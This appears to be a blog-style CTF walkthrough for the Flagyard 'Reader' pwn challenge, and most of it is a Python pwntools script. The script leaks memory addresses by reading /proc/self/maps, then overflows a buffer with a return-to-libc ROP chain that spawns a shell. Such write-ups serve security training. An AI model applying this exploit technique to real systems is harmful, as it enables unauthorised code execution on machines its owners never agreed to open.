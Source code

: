 ```yaml
---
title: "Flagyard - Reader"
excerpt: " "
comments: true
categories:
  - Hacking
  - Walkthrough
  - CTF
tags:
  - Hacking
  - Walkthrough
  - CTF
  - Flagyard
header:
  overlay_image: /assets/images/pasek-hack.png
---
```

# Flagyard - Reader
{: .text-justify}

## 00. Metainfo

|:----|:----|
|Portal:|[Flagyard](https://flagyard.com/)|
|Task:|[Reader](https://flagyard.com/labs/training-labs/5/challenges/ec874161-e57b-4403-8ace-de20790c4b1f)|
|Category:|PWN|

# 01. Description
**Oto tłumaczenie na język angielski:**
Next challenge from Flagyard. I also spent some time on it, but I went in a different direction than before. Anyway, you’ll see for yourselves. Below is the source code showing how to get through it.
{: .text-justify}
## Solve in Python

```py
from pwn import *             
import re

context.update(arch='x86_64', os='linux') 
context.terminal = ['wt.exe','wsl.exe'] 

binary = context.binary = ELF("./reader", checksec=False)

if args.REMOTE:
    p = remote('nc 34.252.33.37 30476'.split()[1], 30476)
else:
    p = process(binary.path)    

program_name='/app/run'

p.sendlineafter(b"read:", b'/proc/self/maps')
SELF_MAPS=p.recvuntil(b'give me file to read: ')
base_pattern=re.search(r'^\s*([0-9a-f]+).*'+program_name,SELF_MAPS.decode(),re.MULTILINE)
libc_pattern=re.search(r'^\s*([0-9a-f]+).*/libc.so.6',SELF_MAPS.decode(),re.MULTILINE)

base_address=int("0x"+base_pattern.group(1),16)
libc_address=int("0x"+libc_pattern.group(1),16)
ret=base_address+0x101a

pop_rdi=libc_address+0x000000000010f75b
system=libc_address+0x58740
str_bin_sh=libc_address+0x1cb42f

length=120
payload=b"A"*length+p64(ret)+p64(pop_rdi)+p64(str_bin_sh)+p64(system)
p.sendline(payload)

p.interactive()
```
## Summary
This is tricky challenge. I like it.
{: .text-justify}


